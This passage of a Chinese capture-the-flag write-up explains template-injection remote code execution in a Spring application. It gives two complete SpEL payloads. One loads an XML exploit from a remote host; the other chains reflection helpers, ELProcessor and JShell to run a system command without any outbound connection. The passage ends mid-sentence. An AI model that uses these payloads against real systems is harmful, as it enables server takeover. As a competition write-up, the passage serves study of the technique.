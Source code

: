 #### 思路一：反射构造函数

由于在 spring 的环境下，我们可以利用 `ClassPathXmlApplicationContext` 构造函数来达成 SpEL 表达式执行，payload 会用到两个静态函数

1.  `org.apache.el.util.ReflectionUtil#forName`
2.  `com.zaxxer.hikari.util.UtilityElf#createInstance`

不细讲了，这个 payload 构造起来比较简单，当时比赛用的就是这个 payload

```plain
[[${T(org. apache.el.util.ReflectionUtil).forName("com.zaxxer.hikari.util.UtilityElf").createInstance("org."+"springframework.context.support.ClassPathXmlApplicationContext", T(org. apache.el.util.ReflectionUtil).forName("org."+"springframework.context.support.ClassPathXmlApplicationContext"), "http://ip/test.xml")}]]
```

#### 思路二：反射函数调用

由于比赛环境是可以出网的，思路一可以在公网挂载 xml 的方式来载入 exp。赛后想了下，如果是不出网的情况呢？能不能根据前面找到的静态函数来构造个不出网的命令执行或任意代码执行呢？这次 payload 组合了下面几个静态函数

1.  `ch.qos.logback.core.util.Loader#loadClass`
2.  `com.zaxxer.hikari.util.UtilityElf#createInstance`
3.  `org.apache.tomcat.util.IntrospectionUtils#callMethodN`

思路是通过 `createInstance` 构建 `jakarta.el.ELProcessor` 对象，然后再通过 `callMethodN` 来调用它的 `eval` 函数。因为比赛环境是 jdk17，所以后续的 EL 利用的是 `jdk.jshell.JShell` 来执行任意代码（在 jdk<=11 的环境下可以用 `javax.script.ScriptEngineManager`）。有兴趣的师傅可以从头构建一下下面的 payload，还是有些坑要踩的。

```plain
[[${T(org. apache.tomcat.util.IntrospectionUtils).callMethodN(T(com.zaxxer.hikari.util.UtilityElf).createInstance('jakarta.el.ELProcessor', T(ch.qos.logback.core.util.Loader).loadClass('jakarta.el.ELProcessor')), 'eval', new java.lang.String[]{'"".getClass().forName("jdk.jshell.JShell").getMethods()[6].invoke("".getClass().forName("jdk.jshell.JShell")).eval("java.lang.Runtime.getRuntime().exec(\"touch /tmp/success1\")")'}, T(org. apache.el.util.ReflectionUtil).toTypeArray(new java.lang.String[]{"java.lang.String"}))}]]
```

另外，在翻 `jdk.jshell.JShell` 的利用的时候，找到了 [这篇文章](https://codewhitesec.blogspot.com/2023/04/java-exploitation-restrictions-in.html) 对其利用的描述

> Thus, it seems that we don't have access to a lot of "useful" classes with the programmatic approach. But as you already might have guessed, using fully qualified class names can be used as well. We don't have to "fix" the `import` issue mentioned above but can still use all built-in JDK classes by referencing them accordingly: `java.nio.file.Files.createFile(java.nio.file.Paths.get(\"/tmp/RCE\"));`. This gives us again all the power needed to build (almost) arbitrary Java code payloads for exfiltrating data, putting them in a server response etc. pp.

JShell 的默认载入包的范围在
